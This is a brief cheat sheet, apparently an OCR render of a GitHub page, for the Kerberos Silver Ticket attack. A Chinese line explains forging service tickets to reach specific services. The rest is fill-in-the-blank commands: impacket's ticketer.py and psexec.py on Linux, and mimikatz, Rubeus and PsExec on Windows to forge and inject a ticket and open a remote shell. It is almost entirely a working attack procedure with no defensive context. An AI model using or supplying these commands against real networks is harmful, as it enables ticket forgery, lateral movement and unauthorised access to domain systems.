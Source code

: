 
---

# Sliver Ticket Attack (TGST) 
```
使用服務帳戶或機器帳戶建立白銀票
據以存取特定的服務，從而擴大成果
```
On Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>

export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache 

python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```
On Windows
```bash
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```